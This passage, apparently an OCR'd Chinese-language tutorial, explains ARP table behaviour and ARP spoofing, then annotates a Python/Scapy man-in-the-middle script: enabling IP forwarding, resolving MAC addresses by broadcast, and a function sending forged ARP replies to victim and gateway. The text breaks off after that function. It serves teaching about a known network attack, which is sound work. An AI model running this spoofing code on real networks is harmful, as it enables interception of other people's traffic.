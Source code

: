    >       - ARP 表中的条目是动态的，条目会在一段时间后过期。
   >       - 如果目标设备的 IP 地址或 MAC 地址发生变化，需要重新发起 ARP 请求。
   >
   >    2. **易受攻击**：
   >
   >       - ARP 欺骗（ARP Spoofing）
   >
   >         ：
   >
   >         - 攻击者伪造 ARP 响应，将错误的 MAC 地址发送给目标设备。
   >         - 目标设备更新 ARP 表后，通信数据可能被重定向到攻击者。

------

### **代码的详细解析**

#### **1. 启用 IP 转发**

```python
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
```

- **作用**：将操作系统设置为允许 IP 包转发，使攻击者可以充当网关转发流量。
- **原理**：Linux 系统中，`/proc/sys/net/ipv4/ip_forward` 控制 IP 包的转发功能，设置为 `1` 即开启。

------

#### **2. 获取目标或网关的 MAC 地址**

```python
def get_mac(IP):
    conf.verb = 0  # 禁用 Scapy 的输出
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=IP), timeout=2, iface=interface, inter=0.1)
    for snd, rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
```

- **作用**：通过发送 ARP 请求获取指定 IP 的 MAC 地址。

- 原理

  ：

  1. 使用 ARP 请求向局域网广播，目标机器会以 ARP 响应返回其 MAC 地址。
  2. Scapy 的 `srp` 函数可以发送链路层包（Ethernet + ARP），并接收响应。
  3. 返回目标机器的 MAC 地址。

------

#### **3. 伪造 ARP 响应**

```python
def trick(gm, vm):
    send(ARP(op=2, pdst=victimIP, psrc=gateIP, hwdst=vm))
    send(ARP(op=2, pdst=gateIP, psrc=victimIP, hwdst=gm))
```
